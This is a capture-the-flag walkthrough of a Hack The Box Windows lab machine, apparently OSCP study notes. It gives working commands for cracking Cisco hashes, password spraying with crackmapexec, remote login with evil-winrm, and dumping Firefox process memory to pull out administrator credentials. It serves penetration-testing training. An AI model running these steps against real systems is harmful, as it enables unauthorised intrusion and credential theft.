 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## ⚙️ Recon

**Nmap Scan**
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.149
```
- Port 80: HTTP Web Portal

---

## 🌐 [Web Enumeration](HTTP.md)

**Browse Web Portal**
- Navigate to: `http://10.10.10.149`
- Found a **Guest login** → displayed usernames and an **attachment** with Cisco password hashes.

---

## 🔓 Cracking Hashes

### 🧩 Type 5 Hash
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 🧩 Type 7 Hash
Use online Cisco Type 7 decoder (e.g. https://insecure.org/sploits/cisco.password.decoder.html)

---

## 👤 User Enumeration

**RID Brute Force with [CrackMapExec](SMB.md)**
```bash
crackmapexec smb 10.10.10.149 --rid-brute
```

**Password Spray**
```bash
crackmapexec smb 10.10.10.149 -u usernames.txt -p crackedpass
```

---

## 🔐 Gaining Remote Access

**Connect via Evil-WinRM or WinRM manually**
```bash
evil-winrm -i 10.10.10.149 -u ch4rl3s -p [cracked_password]
```

🎉 Found `user.txt` in `C:\Users\ch4rl3s\Desktop`

---

## 🕵️ Investigating the System

**Check files**
```powershell
Get-ChildItem -Path C:\Users\ch4rl3s\Documents\
type C:\Users\ch4rl3s\Documents\todo.txt
```

**Enumerate Processes**
```powershell
Get-Process | where { $_.Path -like "*firefox*" }
```

---

## 📦 Dumping and Analyzing Firefox Memory

**Dump Process Memory**
```powershell
procdump64.exe -ma firefox_pid firefox.dmp
```

**Transfer to attacker machine**
- Use SMB or upload via Evil-WinRM.

**Analyze Memory**
```bash
strings firefox.dmp | grep -i password
```
🎯 Recovered admin credentials!

---

## 🚀 Escalating to Administrator

**Reuse credentials with Evil-WinRM**
```bash
evil-winrm -i 10.10.10.149 -u administrator -p [discovered_password]
```

🎉 Grab `root.txt` from `C:\Users\Administrator\Desktop\`

---

## ✅ Conclusion

- Web app led to leaked Cisco hashes
- Cracking hashes enabled password spray
- Dumped Firefox process memory to recover admin creds
- Completed full escalation path!